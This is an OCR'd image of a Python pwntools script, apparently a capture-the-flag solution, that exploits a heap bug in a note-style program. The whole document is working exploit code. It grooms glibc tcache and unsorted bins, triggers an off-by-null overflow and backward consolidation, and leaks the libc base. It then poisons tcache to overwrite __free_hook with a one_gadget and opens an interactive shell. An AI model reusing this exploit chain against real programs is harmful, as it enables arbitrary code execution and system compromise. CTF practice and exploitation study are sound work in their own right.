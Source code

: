 ```python
ddel(9) # add last chunk to tcache.prevent consolidate with top chunk



for x in range(9):
    ddel(x)


for x in range(10):
    add('a')

for x in range(6):
    ddel(x)



ddel(8) # tcache full
ddel(7) #unsorted bin

add('a'*0xf0+p64(0)) #0 off-by-null


ddel(6) #tcache full

ddel(9) #backward consolidate


for x in range(7):
    add('b')

add('c') # split unsorted bin so fd bk appears at #0 user data section

offset = 0x3ebca0
view(0)
io.recvuntil('index \n> ')
libcbase = u64(io.recv(6).ljust(8,'\x00')) - offset
success('libcbase: '+hex(libcbase))
#io.interactive()
onegad = libcbase + 0x4f322
freehook = libcbase + 0x3ed8e8
mallochook = libcbase + 0x3ebc30
success('one_gadget : '+hex(onegad))
success('free_hook : '+hex(freehook))
success('malloc_hook : '+hex(mallochook))

add('d') #0 9 , tcache dup

ddel(2) # counts = 3


ddel(0)
ddel(9)

add(p64(freehook))
add('')
add(p64(onegad))


ddel(2) # trigger free



io.interactive()
```